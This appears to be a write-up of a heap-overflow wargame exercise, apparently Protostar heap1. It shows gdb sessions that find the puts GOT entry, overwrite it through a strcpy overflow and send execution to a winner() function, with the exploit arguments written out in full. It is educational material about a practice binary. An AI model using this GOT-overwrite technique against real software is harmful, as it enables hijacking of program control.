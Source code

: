 Reveals `puts@plt` is invoked after the dangerous `strcpy` call. To get to the GOT table, must first disassembly the PLT (procedure linkage table) trampoline to the GOT.

    gdb-peda$ disassemble 0x80483d0
    Dump of assembler code for function puts@plt:
       0x080483d0 <+0>:     jmp    DWORD PTR ds:0x8049844
       0x080483d6 <+6>:     push   0x20
       0x080483db <+11>:    jmp    0x8048380
    End of assembler dump.

Bingo `DWORD PTR ds:0x8049844`, is the address of the `puts` GOT table entry. Replacing the 'FFFF' characters with the `puts` GOT table address `0x8049844`:

    gdb-peda$ r "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x44\x98\x04\x08"`" 000011112222333344445555
    Stopped reason: SIGSEGV
    0x30303030 in ?? ()


`0x30303030` happens to be the ASCII code for the `0` (zero) character, which are the first 4 bytes of the second input argument. The segfault `0x30303030 in ?? ()` highlights that the `puts` call, got rewired (its GOT entry) to invoke instruction `0x30303030`. Dumping the `EIP` confirms this:

    gdb-peda$ info registers
    eax            0x8049844        0x8049844
    ecx            0x0      0x0
    edx            0x19     0x19
    ebx            0xb7fd5ff4       0xb7fd5ff4
    esp            0xbffffc3c       0xbffffc3c
    ebp            0xbffffc68       0xbffffc68
    esi            0x0      0x0
    edi            0x0      0x0
    eip            0x30303030       0x30303030

Placing the address of the desired instruction to be executed is now trivial, for example the `winner()` function:

    gdb-peda$ x winner
    0x80484ec <winner>:      "U\211\345\203\354\030\307\004$"

Now to write the address of `winner()` into the EIP:

    gdb-peda$ r "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x44\x98\x04\x08"`" \
        "`/bin/echo -ne "\xec\x84\x04\x08"`"
    and we have a winner @ 1570881614

To gain a better intuition about what is going here. Set breakpoints after each `malloc` call. The first break is hit:

    Breakpoint 1, 0x08048525 in main (argc=0x3, argv=0xbffffd24) at main.c:21
    21        i1 = malloc(sizeof(struct internet));

To visualise the heap segment further, need its segment address:

    gdb-peda$ info proc mappings
    process 2813
    Mapped address spaces:
    
            Start Addr   End Addr       Size     Offset objfile
             0x8048000  0x8049000     0x1000          0      /root/code/heap1/heap1
             0x8049000  0x804a000     0x1000          0      /root/code/heap1/heap1
             0x804a000  0x806b000    0x21000          0           [heap]
            0xb7e76000 0xb7e77000     0x1000          0
            0xb7e77000 0xb7fd3000   0x15c000          0      /lib/cmov/libc-2.13.so

